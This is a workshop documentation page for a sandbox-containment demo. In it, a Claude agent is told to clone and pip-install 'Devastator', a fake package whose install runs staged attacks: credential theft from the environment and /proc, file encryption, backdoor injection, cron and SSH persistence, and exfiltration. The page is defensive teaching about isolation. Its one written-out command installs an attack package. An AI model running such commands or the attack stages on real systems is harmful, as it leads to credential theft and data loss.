

repository: na-launch-workshop/workshop-kata-claude-gateway-client · page: phase-1-devastator/index.html · generator: mkdocs

# Phase 1 — Devastator Attack Demo

See what happens when AI executes untrusted code, and how OpenShift sandboxed containers limit the blast radius.

---

## What you'll see

Devastator is a fake Python package that looks like a utilities library but actually runs a multi-stage attack when installed. You'll ask the Claude agent to install it, then watch what happens inside the Kata sandbox.

---

## Run the demo

Click **Terminal** → **Run Task** → **Run Devastator Attack Demo**.

> Or from the terminal: `python3.11 client.py run "Run this bash command: git clone https://github.com/pkredhat/devastator /tmp/devastator && pip install /tmp/devastator/"`

The agent will execute the command in its Kata sandbox. Watch the output.

---

## What happens

| Stage | Attack | Sandbox result |
|---|---|---|
| 1 | Tries to steal credentials from environment variables | Subprocess env is stripped — not found ✅ |
| 1b | Scans `/proc` for credentials in other processes | **Finds real API keys from the gateway** ⚠ |
| 2 | Encrypts all files (ransomware simulation) | Only affects this sandbox session ✅ |
| 3 | Injects backdoor code into `.py` files | Sandbox only — no real impact ✅ |
| 4 | Tries to install cron backdoor + SSH key | Blocked — read-only filesystem ✅ |
| 5 | Tries to exfiltrate data to attacker server | Blocked — network policy ✅ |

---

## Why this matters

**Without the Kata sandbox:**
- ❌ Credentials stolen and exfiltrated
- ❌ All your files encrypted
- ❌ Backdoor installed on your system
- ❌ Persistent access for the attacker
- ❌ Other users on the same machine affected

**With Kata + NetworkPolicy:**
- ⚠ API keys visible in `/proc` (partial)
- ✅ Only sandbox files encrypted (contained)
- ✅ Crontab install blocked
- ✅ Data exfiltration blocked
- ✅ Other users completely unaffected
- ✅ Sandbox can be destroyed and rebuilt instantly

The Kata sandbox isolates the AI agent in its own lightweight VM with its own kernel. Even when the agent executes malicious code, it can't escape to affect the real system or other users.

---

## Discussion points

1. **Stage 1b is the realistic threat** — even with env stripping, `/proc` scanning finds credentials. Without network egress blocking, those keys would be stolen.

2. **Blast radius** — the encryption and backdoor only affect this one sandbox session. Your real files are untouched. Other participants are completely isolated.

3. **Defense in depth** — Kata provides the isolation boundary, NetworkPolicy blocks exfiltration, and the read-only filesystem stops persistence.

---
